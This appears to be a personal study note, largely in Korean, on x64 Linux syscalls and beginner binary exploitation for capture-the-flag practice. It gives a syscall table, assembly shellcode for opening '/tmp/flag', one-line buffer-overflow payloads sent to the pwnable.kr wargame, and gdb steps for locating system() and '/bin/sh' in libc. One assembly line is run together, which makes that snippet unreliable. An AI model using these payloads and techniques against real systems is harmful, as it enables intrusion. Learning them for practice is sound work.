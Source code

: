 # syscall
시스템 콜은 함수
필요한 기능과 인자에 대한 정보를 레지스터로 전달하면, 커널이 이를 읽어서 요청을 처리
리눅스에서는 x64아키텍처에서 `rax`로 무슨 요청인지 나타내고, 아래의 순서대로 필요한 인자를 전달함

**요청:** rax
**인자 순서:** rdi → rsi → rdx → rcx → r8 → r9 → stack

![[Pasted image 20231024221325.png]]

syscall table을 보면, rax가 0x1일 때, 커널에 write 시스템콜을 요청함
이때 rdi, rsi, rdx가 0x1, 0x401000, 0xb 이므로 커널은 write(0x1, 0x401000, 0xb)를 수행하게 됨
write함수의 각 인자는 출력 스트림, 출력 버퍼, 출력 길이
여기서 0x1은 stdout이며, 이는 일반적으로 화면을 의미
0x401000에는 Hello World가 저장되어 있고, 
길이는 0xb로 지정되어 있으므로, 
화면에 Hello World가 출력됨


# x64 syscall 테이블
총 갯수가 300개 이상
필요할 때 검색하면 됨

|**syscall**|**rax**|**arg0 (rdi)**|**arg1 (rsi)**|**arg2 (rdx)**|
|---|---|---|---|---|
|read|0x00|unsigned int fd|char `*`buf|size_t count|
|write|0x01|unsigned int fd|const char `*`buf|size_t count|
|open|0x02|const char `*`filename|int flags|umode_t mode|
|close|0x03|unsigned int fd|||
|mprotect|0x0a|unsigned long start|size_t len|unsigned long prot|
|connect|0x2a|int sockfd|struct sockaddr `*` addr|int addrlen|
|execve|0x3b|const char `*`filename|const char `*`const `*`argv|const char *const *envp|

인자 가능한 설정 확인 주소
https://code.woboq.org/userspace/glibc/bits/fcntl.h.html#24


# 파일 입출력 구현
`"/tmp/flag"`를 읽는 셸코드를 작성
```c
char buf[0x30]; 
int fd = open("/tmp/flag", RD_ONLY, NULL);
read(fd, buf, 0x30); 
write(1, buf, 0x30);
```


1. `"/tmp/flag"`라는 문자열을 메모리에 위치시키기
`"/tmp/flag"` 라는 문자열을 리틀엔디언으로 표현하면 `0x616c662f706d742f67`
스택에 `0x616c662f706d742f67(/tmp/flag)`를 push
하지만 스택에는 8 바이트 단위로만 값을 push할 수 있으므로 
`0x67`를 우선 push한 후, `0x616c662f706d742f`를 push

2. 첫 번째 인자 설정
rdi가 이를 가리키도록 rsp를 rdi로 옮김

3. 두 번째 인자 설정
O_RDONLY는 0이므로, rsi는 0으로 설정

4. 세 번째 인자 설정
파일을 읽을 때, mode는 의미를 갖지 않으므로 rdx는 0으로 설정

5. syscall 값 설정
rax를 open의 syscall 값인 2로 설정

### Implement
```
push 0x67
mov rax, 0x616c662f706d742f 
push raxmov rdi, rsp ; rdi = "/tmp/flag"
xor rsi, rsi ; rsi = 0 ; RD_ONLY
xor rdx, rdx ; rdx = 0
mov rax, 2 ; rax = 2 ; syscall_open
syscall ; open("/tmp/flag", RD_ONLY, NULL)
```




# Example shell code

```bash
./bof `python -c "print 'A'*52+'\xbe\xba\xfe\xca'"`
(python -c "print 'A'*52+'\xbe\xba\xfe\xca'";cat) | ./bof
(python -c "print 'A'*52+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000

./col `python -c "print '\xcc\xce\xc5\x06'+'\xc8\xce\xc5\x06'*4"`
```



# How to find system() and bin/sh

```bash
ldd ./target
shared_library 	/lib/i386-linux-gnu/libc.so.6

strings -tx [shared_library] | grep "bin/sh"
/bin/sh		0x15bb2b

gdb [shared_library]
print system
system		0x3adb0

p/x 0x15bb2b-0x3adb0
$2=0x120d7b

diff		0x120d7b

gdb target
r
print system
0xf7630db0

p/x 0xf7630db0 + 0x120d7b
0xf7751b2b

x/s 0xf7751b2b
"/bin/sh"
```
